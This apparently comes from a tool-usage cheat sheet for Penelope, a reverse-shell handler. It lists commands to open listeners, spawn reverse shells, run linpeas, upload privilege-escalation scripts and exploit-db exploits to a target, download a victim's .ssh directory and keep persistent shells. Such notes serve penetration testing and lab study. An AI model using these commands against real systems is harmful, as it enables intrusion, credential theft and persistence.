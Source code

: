 # Penelope

Link: https://github.com/brightio/penelope

## Usage

#### 1) Create listener

    penelope (Default 4444)

#### 2) Create listener on a specific port

    penelope 443

#### 3) Go to main menu of penelope

    CTRL+C or F12

## Penelope Terminal

#### 1) Run linpeas

    > run peass-ng

#### 2) Check for tasks running on the machine

    > tasks

#### 3) Spawn a reverse shell

    > spawn 443

#### 4) Upload privesc scripts to target machine

    > run upload_privesc_scripts

#### 5) Upload your own scripts on the machine

    > upload /home/user/myscripts

#### 6) Download an exploit from exploit-db

    > upload https://www.exploit-db.com/exploits/NUM

#### 7) Interact with your session

    > interact

#### 8) Open a file from target machine

    > open file.ods

#### 9) Download files 

    > download /home/victim/.ssh

#### 10) Maintain shells depending on the number provided for persistent access

    > maintaining 2

#### 11) Kill your session (If you maintained another shell session, upon killing one session, the tool will try to spawn another one)

    > kill
